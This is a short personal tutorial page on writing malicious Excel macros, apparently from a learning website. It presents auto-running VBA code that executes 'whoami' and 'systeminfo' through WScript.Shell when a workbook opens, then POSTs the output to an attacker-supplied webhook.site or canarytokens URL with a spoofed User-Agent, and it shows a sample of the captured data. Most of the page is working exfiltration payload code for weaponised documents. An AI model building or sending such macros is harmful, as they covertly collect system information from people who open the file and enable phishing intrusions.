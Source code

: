 # Microsoft Macros

### Introduction

Macros on Microsoft app \(Word, Excel, etc.\) allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()
    Msgbox "Popup Message Here"
End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own web-hook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

### Integrating Canary Tokens

Canary Tokens are a way to track an IP address when they do a certain task. This could be accessing a website or even requesting a DNS hostname. We can use the previous code and incorporate a Canary Token into it.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "http://canarytokens.com/static/about/your_own_token/contact.php"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

In line 6, we can see the canary token being used. Once we access the token, it then sends the information to the email or web-hook we have used initially. Our output should look like this:

```csharp
{
  "manage_url": "https://canarytokens.org/manage?token=Took_this_out&auth=Took_this_out",
  "memo": "Website Accessed ",
  "additional_data": {
    "src_ip": "Your IP",
    "useragent": "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)",
    "referer": null,
    "location": null
  },
  "channel": "HTTP",
  "time": "2021-03-07 20:25:36 (UTC)"
}
```

